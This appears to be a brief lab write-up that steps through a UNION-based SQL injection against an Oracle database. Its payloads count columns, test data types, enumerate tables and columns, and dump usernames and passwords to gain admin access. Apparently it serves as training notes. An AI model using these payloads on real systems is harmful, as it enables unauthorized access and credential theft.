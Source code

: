 # listing on Oracle database

list query

``` sqli
select * from all_tables
```

listing via column query

``` sqli
select * from all_tab_column where table_name='Users'
```

end goal : listing content of database

need to find columns

```sqli
' order by 1--
' order by 2--
```

two columns

String data type query

```sqli
' union select 'a', 'a' from dual--
```

both column contains string

finding tables name

```sqli
' union select table_name, NULL from all_tables-- 
```

got the tables

now retireving more the data of column

```sqli
' union select column_name, NULL from all_tab_columns where table_name='USERS_ERVCVG
'-- 
```sqli
got the column of user and password

```sqli
' union select USERNAME_HZHOFM
, PASSWORD_MHVDJN from USERS_ERVCVG-- 
```

got the password for admin access
